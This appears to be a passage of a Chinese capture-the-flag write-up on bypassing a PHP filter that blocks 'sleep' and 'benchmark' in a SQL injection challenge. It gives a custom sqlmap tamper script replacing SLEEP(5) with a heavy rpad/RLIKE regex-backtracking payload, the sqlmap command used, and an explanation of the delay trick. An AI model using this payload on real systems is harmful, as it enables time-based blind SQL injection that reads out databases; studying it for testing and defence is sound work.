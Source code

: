 ```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark/i',$str);
    }   
```

再去搜搜

搞了巨久 终于出来了 主要是卡在sqlmap的地方

这里的tamper是这样的

```python
import base64
 
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    pass
def tamper(payload,**kwargs):
    payload = payload.replace("SLEEP(5)", """(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b')""")
    return payload
```

然后执行命令 但是这里修改tamper的操作量有点高，而且上面这个tamper 不够稳定，很多次我获取不到内容 （可能是没写好），但是确实现在不知道如何修改了

```cobol
py3 .\sqlmap.py -r C:\Users\Administrator\Desktop\1.txt --level 3   -v3 --technique=T --tamper 2  --fresh-queries -p ip  --dbs --prefix ")"
```

即可实现

这里我们开始解释

 [https://www.cnblogs.com/forforever/p/13019703.html](https://www.cnblogs.com/forforever/p/13019703.html) 

```cobol
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b')
 
repeat('(a.*)+',30)  将a 复制30次
 
rpad('a',4999999,'a')  将a追加4999999个a 就是 5000000个a
 
concat(repeat('(a.*)+',30),'b') 将 30个a +b 拼接 就是 30*a+b 这种
 
```

所以这里的执行时间 就会很长 然后我们多几次
